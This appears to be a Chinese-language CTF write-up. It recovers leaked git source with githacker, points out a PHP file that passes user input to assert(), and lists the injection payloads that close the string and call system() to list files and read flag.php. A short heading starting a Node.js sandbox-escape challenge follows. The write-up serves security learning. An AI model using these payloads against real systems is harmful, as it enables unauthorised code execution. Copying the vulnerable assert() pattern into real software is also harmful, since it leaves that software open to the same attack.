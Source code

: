 确认是git源码泄露之后使用githack把源码down下来

```
 python3 githacker.py --url http://111.200.241.244:52612/ --folder result
```

然后会在template/flag.php发现关键代码

```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";//用于拼接形成目录路径

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); // 这个就是刚才不能使用目录比案例的原因

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```

assert函数，所以考虑是任意代码执行，assert函数对传入的参数可能会当作php代码进行执行

这个时候我们就可以把page后的参数进行闭合，传入可执行命令，并且注释掉后续的代码，这就实现了让assert函数执行任意命令

```
?page=');//'
```

说明闭合成功

![image-20220707172028414](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730749.png?x-oss-process=hzy)

继续进行命令注入

```
？page=').system("ls"); //
?page=%27).system("cat%20/var/www/html/templates/flag.php");//
```

![image-20220707172440816](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730787.png?x-oss-process=hzy)

# leaking

- nodejs沙箱逃逸

这个方面的漏洞还没系统的学，这题边做边学吧

首先看源代码
